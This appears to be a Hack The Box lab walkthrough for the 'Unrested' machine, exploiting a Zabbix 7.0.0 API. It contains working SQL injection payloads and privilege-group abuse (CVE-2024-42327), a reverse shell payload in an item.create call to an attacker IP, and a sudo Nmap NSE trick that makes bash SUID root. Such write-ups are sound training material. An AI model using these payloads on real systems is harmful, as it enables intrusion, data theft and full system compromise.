 # Unrested HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Unrested-yellow?logo=hackthebox)](https://app.hackthebox.com/machines/639)
[![Difficulty: Medium](https://img.shields.io/badge/Difficulty-Medium-yellow)](https://github.com/subhash00/HackTheBox/)
[![Platform: Linux](https://img.shields.io/badge/Platform-Linux-blue)](https://github.com/subhash00/HackTheBox/)
[![Topic: Linux-PrivEsc](https://img.shields.io/badge/Topic-Linux--PrivEsc-yellowgreen)](https://en.wikipedia.org/wiki/Privilege_escalation)

## Overview
This walkthrough documents the process of solving the Unrested machine on Hack The Box. Unrested is a medium difficulty Linux machine running Zabbix 7.0.0, which is vulnerable to multiple security flaws including API privilege escalation, SQL injection, and sudo misconfigurations. The exploitation leverages CVE-2024-36467 and CVE-2024-42327 affecting the Zabbix JSON-RPC API and a sudo misconfiguration allowing root access via running Nmap with specific options.

The goal is to enumerate the machine, exploit the vulnerable API endpoints to gain user access, extract credentials from the database via SQLi, and finally escalate privileges with a clever Nmap-based exploit.

---

## Table of Contents
- [Enumeration](#enumeration)
- [API Exploitation](#api-exploitation)
- [Reverse Shell Setup](#reverse-shell-setup)
- [Privilege Escalation via Nmap](#privilege-escalation-via-nmap)
- [Root Shell and Flag](#root-shell-and-flag)
- [Stepwise PoC](#stepwise-poc)
- [Tools Used](#tools-used)
- [Technologies Used](#technologies-used)

---

## Enumeration


**Scan all TCP ports quickly**
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.176 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
```
**Detailed service/version scan on discovered ports**
```
nmap -p$ports -sC -sV 10.129.231.176
```

---

## API Exploitation

### Vulnerable Zabbix API Endpoint
- API Endpoint: `http://<ip>/zabbix/api_jsonrpc.php`
- Vulnerable methods: `user.get`, `host.get`, `user.login`, `item.create`, `user.update`
- Reference:
  ```
  https://support.zabbix.com/browse/ZBX-25623
  https://github.com/zabbix/zabbix
  https://github.com/compr00t/CVE-2024-42327?tab=readme-ov-file
  https://nvd.nist.gov/vuln/detail/CVE-2024-42327
  ```

---

### SQL Injection and Database Extraction
- Create **access token** using 'user.login' method.
- Leverage user.update to add users to privilege groups.
- Use SQL injection to extract session IDs and sensitive data using time-based or error-based payloads on API parameters.
- Example payload for tables enumeration and SQL identification:
```
roleid","name AND (SELECT 1 FROM (SELECT SLEEP(5))A)"]

##After adding user to privilege groups.
roleid, @@version
roleid, (SELECT GROUP_CONCAT(table_name SEPARATOR '\n') FROM information_schema.tables LIMIT 1)
```
---

### Example: Time base SQL Injection 
```
{
  "jsonrpc": "2.0",
  "method": "user.get",
  "params": {"output":
["userid","username"],"selectRole":["roleid","name AND (SELECT 1 FROM (SELECT SLEEP(5))A)"],"editable":1},
  "id": 1,
  "auth": "171377d99af202a822d842c0039639d5"
}

```
---

###  Leverage user.update to add our user to privilege group. 
```
{"jsonrpc": "2.0", "method": "user.update", "params": {"userid": "3", "usrgrps": [{"usrgrpid":"7"},{"usrgrpid":"13"}]},
"auth":"bed8160dd79972adb7a870fa758c7710",
 "id": 1,
 "auth": "171377d99af202a822d842c0039639d5"
}
```

---

### Enumerate columns in sessions table (SQLi)
```
{
"jsonrpc": "2.0",
"method": "user.get",
"params": {
"selectRole": [
"roleid",
"(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='sessions')"
],
"userids": ["1"]
},
"auth": "a",
"id": 1
}
```

---

### Get `hostid` and `interfaceid` required to create items
```
{
"jsonrpc": "2.0",
"method": "host.get",
"params": {
"output": ["hostid"],
"selectHostGroups": "extend",
"selectInterfaces": ["interfaceid"]
},
"auth": "a",
"id": 1
}
```

---

## Reverse Shell Setup

### Netcat listener on attacker's machine
```
nc -lvvp 4448
```

### Create malicious item with reverse shell payload in Zabbix
**Note: hostid and interfaceid are copied from response of host.get method call**
```
{
"jsonrpc": "2.0",
"method": "item.create",
"params": {
"name": "Reverse Shell",
"key_": "system.run[bash -c 'bash -i >& /dev/tcp/10.10.14.99/4545 0>&1']",
"hostid": "10084",
"type": 0,
"value_type": 4,
"interfaceid": "1",
"delay": "60s"
},
"auth": "1054172ff39264342a5a1d3f6be60f11",
"id": 1
}
```

---

## Privilege Escalation via Nmap

### Check sudo privileges of current user
```
sudo -l
```
Output shows user can run `/usr/bin/nmap` as root without password.

### Create NSE Lua script to escalate privileges
```
echo 'os.execute("chmod 4755 /bin/bash")' > /tmp/nse_main.lua
```

### Run Nmap with custom data directory to use our script
```
sudo /usr/bin/nmap --datadir=/tmp -sC localhost
```

### Spawn a root shell using SUID bash
```
/bin/bash -p
id # Verify root privileges
```

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1473" height="645" alt="19" src="https://github.com/user-attachments/assets/d585960a-76d5-491c-a8b9-47cf0b53046a" />
<img width="1495" height="702" alt="18" src="https://github.com/user-attachments/assets/890dd080-954a-4207-943a-3b19c3f6c076" />
<img width="1907" height="762" alt="17" src="https://github.com/user-attachments/assets/049a72b2-0e51-49de-9404-b8ed350d92a0" />
<img width="1914" height="802" alt="16" src="https://github.com/user-attachments/assets/52ac97bb-c2cd-40a1-8840-7e3dea7f0114" />
<img width="1916" height="759" alt="15" src="https://github.com/user-attachments/assets/b21350ef-81ee-41c1-ba37-081507eb697c" />
<img width="1094" height="843" alt="14" src="https://github.com/user-attachments/assets/b319d7e0-aeea-4c6c-8c9c-42ed76a77cf8" />
<img width="1051" height="826" alt="13" src="https://github.com/user-attachments/assets/8f9e1084-a79f-48d3-b08a-49c00529c4e8" />
<img width="1839" height="545" alt="12" src="https://github.com/user-attachments/assets/017f96e0-4361-492d-b227-0d958fd028cd" />
<img width="1920" height="619" alt="11" src="https://github.com/user-attachments/assets/7edb7f74-5526-4174-ae6a-1359380ea80b" />
<img width="1868" height="519" alt="10" src="https://github.com/user-attachments/assets/3dd220d5-5070-4cef-ab23-6f86cad931ad" />
<img width="1831" height="635" alt="9" src="https://github.com/user-attachments/assets/8f8aaf51-2669-4c64-ad3c-ab63826df8e9" />
<img width="1920" height="680" alt="8" src="https://github.com/user-attachments/assets/51d745fe-9e2b-46f1-89e6-4df7ea92876b" />
<img width="1907" height="676" alt="7" src="https://github.com/user-attachments/assets/0b61d3a3-8fb0-4412-93e8-7d1841d38520" />
<img width="1915" height="687" alt="6" src="https://github.com/user-attachments/assets/f083baa0-85c8-4da0-9422-a38b824d0296" />
<img width="1798" height="496" alt="5" src="https://github.com/user-attachments/assets/ab11c80e-f223-4e68-aeeb-76c84b78a406" />
<img width="944" height="241" alt="4" src="https://github.com/user-attachments/assets/88845044-48ed-4eba-a50a-f185ceacd535" />
<img width="1526" height="498" alt="3" src="https://github.com/user-attachments/assets/040f6443-3bec-4be5-ad75-7ef221305146" />
<img width="941" height="221" alt="2" src="https://github.com/user-attachments/assets/2b1db28b-e7c6-4df7-97d9-365e26533b3e" />
<img width="1294" height="403" alt="1" src="https://github.com/user-attachments/assets/7903ef0c-f7ec-4c2f-8eb0-90643ffb132c" />

</details>

---

## Tools Used

- **Nmap**: Network scanning and service enumeration tool. Also used here with NSE scripting for privilege escalation.
- **Curl**: Command-line HTTP client used to interact with Zabbix API.
- **Netcat (nc)**: Used to setup a listener to catch reverse shell connections.
- **Base64**: Used to encode/decode exploit scripts.
- **Bash**: Shell interpreter for running commands and scripts.

---

## Technologies Used

- **Zabbix 7.0.0**: Open source network monitoring software, vulnerable here via its API and misconfigured sudo permissions.
- **Lua**: Lightweight scripting language used to write NSE scripts for Nmap.
- **SQL Injection**: Exploiting improper input sanitization in API parameters to perform unauthorized data extraction.
- **SUID (Set User ID)**: Unix file permission that allows executables to run with the owner’s privileges, enabling privilege escalation.

---
